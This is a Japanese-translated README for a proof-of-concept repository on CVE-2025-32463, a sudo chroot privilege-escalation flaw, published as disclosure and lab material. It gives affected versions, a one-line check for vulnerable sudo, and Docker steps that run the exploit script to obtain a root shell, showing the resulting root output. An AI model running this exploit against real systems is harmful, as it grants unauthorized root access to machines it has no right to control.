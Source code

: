 ﻿
# CVE-2025-32463 – sudo chroot ("chwoot") PoC

このリポジトリは、`sudo` の chroot 機能における **CVE‑2025‑32463** 権限昇格脆弱性を示すための最小限の再現環境を提供します。
- この脆弱性は、[Rich Mirch](https://www.stratascale.com/team/rich-mirch)（Xの[@0xm1rch](https://x.com/0xm1rch)）が [Stratascale](https://www.stratascale.com/) にて報告しました。
- オリジナル投稿: [脆弱性アドバイザリ: Sudo chroot 権限昇格](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD: [CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)（CVSS 9.3）

---

## 影響を受けるバージョン

> ほとんどのLinuxディストリビューションにおける **sudo 1.9.14** から **1.9.17** （全てのpリビジョン）が影響を受けます。

セキュリティページ
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463)（CVSS 9.3）
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463)（CVSS 7.8）
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html)（CVSS 7.8）
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## 内容

| ファイル名          | 目的                                                                             |
| ------------------ | -------------------------------------------------------------------------------- |
| **Dockerfile**     | 脆弱な **sudo 1.9.16p2** とビルドツールを含む Ubuntu 24.04 イメージを作成       |
| **sudo‑chwoot.sh** | chroot 内に root シェルを生成するプルーフ・オブ・コンセプトエクスプロイト          |
| **run.sh**         | イメージのビルド（必要な場合）とエクスプロイトコンテナの起動を補助するスクリプト   |

---

## 簡易脆弱性チェック

```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## Dockerコンテナ内でのテストエクスプロイト


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` は Docker に `--privileged` と `--rm` を渡すので、終了時にコンテナが自動的にクリーンアップされます。

---

## クリーンアップ

作業が終わったらイメージを削除してください:


```bash
docker rmi sudo-chwoot
```
---

## 参考文献

- Stratascale CRU 脆弱性ノート: [脆弱性アドバイザリ: Sudo chroot 権限昇格](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---
